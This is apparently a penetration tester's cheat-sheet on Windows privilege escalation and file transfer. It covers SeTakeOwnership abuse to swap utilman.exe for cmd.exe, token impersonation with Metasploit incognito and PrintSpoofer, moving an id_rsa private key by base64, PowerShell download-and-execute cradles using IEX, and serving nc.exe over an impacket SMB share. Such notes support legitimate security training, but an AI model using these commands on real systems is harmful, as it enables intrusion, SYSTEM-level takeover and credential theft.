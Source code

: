 
#### SeTakeOwnership
- Allows user to take ownership of any object on the system
- You could take ownership of a service executable running as SYSTEM
- `Takeown /f [path to executable]`
- Being the owner doesn't mean you have privileges, you still need to assign them with `icacls`
- In this example we used `copy` to replace utilman.exe with a cmd.exe, so when it runs it will give us a command prompt with SYSTEM privileges
- Lock the screen, and run the 'ease of access' on the lock screen to activate utilman

#### SeImpersonate / SeAssignPrimaryToken /SeCreateToken
- Allows services to be executed on behalf of another user. 
- Incognito module in MSF
	- `load incognito`
	- `list_tokens -u`
	- Delegation tokens are from interactive logons
	- Impersonation tokens are from non-interactive logons
	- `impersonate_token "[token]"`
- You can use `PrintSpoofer.exe -i -c powershell` and open an escalated powershell prompt


# File Transfer

## Without network communication:

Do a base64 encode (example file is `id_rsa`)
- `md5sum idrsa` to check hash (your machine)
- `cat id_rsa | base64 -w 0;echo` will echo a base64 encoded version
- paste the encoded version in powershell
	- `[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("encoded payload"))`
- Check MD5 sum
	- `Get-FileHash C:\Users\Public\id_rsa -Algorithm md5`

File Download
- `(New-Object Net.WebClient).DownloadFile('Target URL', 'Output File')`
- To download as a string instead of file:
	- `IEX (New-Object Net.WebClient).DownloadString('string')`
	- or `(New-Object Net.WebClient).DownloadString('string') | IEX`

## With Network Communications:

`wget` in POWERSHELL
`wget [link] -outfile [file name]`

Meterpreter
- go to `C:\\Users\\[user]\\AppData\\Local\\Temp`
- `upload [file]`
#### SMB

- Make a server on your machine with impacket (unauthenticated)
	- `sudo impacket-smbserver share -smb2support /tmp/smbshare`
	- Powershell: `copy \\192.168.220.133\share\nc.exe`
- Authenticated version if you are required to use authenticated access
	- `sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`
	- Powershell: `net use n: \\192.168.220.133\share /user:test test`

